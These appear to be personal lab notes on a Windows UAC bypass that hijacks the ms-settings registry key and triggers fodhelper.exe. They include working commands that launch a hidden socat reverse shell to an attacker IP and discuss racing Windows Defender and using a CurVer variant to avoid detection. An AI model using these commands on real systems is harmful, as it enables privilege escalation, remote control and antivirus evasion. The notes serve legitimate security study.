 ![](/assets/img/Pasted image 20230120005547.png)

	2. Modifying the exploit by appending the execution of 'fodhelper.exe'

```powershell
C:\> set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"

C:\> reg add %REG_KEY% /v "DelegateExecute" /d "" /f
The operation completed successfully.

C:\> reg add %REG_KEY% /d %CMD% /f & fodhelper.exe
```

	- From the previous execution of the exploit command, we saw that it took a while for the Windows Defender to remediate with the modification of registry. In this case, we took advantage of it by modifiying the registry key and executing the trigger binary 'fodhelper.exe' right after the modification.

**Question for Timing attack**: 

	- Are there ways we can influence how fast the exploit will get triggered? Are there ways we can influence to slow down the AV engine?

###### Caveats for Timing attacks:

- It takes multiple tries for me to get the reverse shell as the AV kicks in faster than the execution registry modification command and of the `fodhelper.exe` trigger binary.

![](/assets/img/Pasted image 20230120010636.png)

- Finally getting the reverse shell on the AttackBox:

![](/assets/img/Pasted image 20230120010657.png)

- Let's check the privileges of this shell:

![](/assets/img/Pasted image 20230120010817.png)

- Windows Defender still alerts about the bypass.
- The problem with our current exploit it that it gives `little room for variation`,  as we need to write specific registry keys for it to trigger, making it easy for Windows Defender to detect.

		- I think what they meant is that the registry key that is being modified is way too commonly used for UAC bypassing that most AV solutions has this specific behaviour signatured?

### Improving the `fodhelper` exploit further: (Note that this does ***not*** have `evasion capabilities` by itself.)
- A variation on the `fodhelper` exploit was proposed by `@V3ded`, where different registry keys are used, but the basic principle is the same.
- Instead of writing our payload into `HKCU\Software\Classes\ms-settings\Shell\Open\command`, we will use the `CurVer` entry under a progID registry key (which in this case is `ms-settings`).
- This entry is used when you have multiple instances of an application with ***different versions*** running on the same system.
- `CurVer` allows you to point to the ***default version of the application*** to be used by Windows when opening a given file type.
